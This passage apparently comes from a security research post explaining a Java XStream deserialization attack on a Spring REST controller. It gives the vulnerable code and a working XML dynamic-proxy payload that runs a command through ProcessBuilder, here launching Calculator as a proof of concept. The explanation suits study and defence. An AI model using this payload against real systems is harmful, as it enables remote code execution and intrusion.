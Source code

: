 ```lang-java line-numbers 
@Controller
 @RequestMapping("/contacts")
 public class ContactController {
     @Autowired
     private ContactRepository contactRepository;

     @RequestMapping( method = RequestMethod.POST )
     @ResponseStatus( HttpStatus.CREATED )
      public final String create( @RequestBody Contact contact ){
         log(”Creating new contact: " + contact.getFirstName());
         contactRepository.save(contact);
         return "OK";
     }
 }
```

So the idea is to:

* Find out what Class the XML will be deserialized to (in this case com.company.model.Contact)
* Create a proxy for that class
* Intercept/hook any call to any method in the interface
* Replace the original call with the malicious payload
* Send the serialized version of the proxy
* Cross-fingers
* Profit

So this is what our server application was expecting:

```lang-markup line-numbers 
<contact>
    <id>1</id>
    <firstName>alvaro</firstName>
    <lastName>munoz</lastName>
    <email>alvaro@pwntester.com</email>
</contact>
```

And this is what we will send in order to execute any arbitrary payload:

```lang-markup line-numbers 
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
	<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

As you can see we are defining a **dynamic proxy** for the "com.company.model.Contact" interface and intercepting any method call on that interface with a "java.beans.EventHandler" invocation handler. This handler will replace the original method call with a call to "java.lang.ProcessBuilder.start("/Applications/Calculator.app/Contents/MacOS/Calculator")".
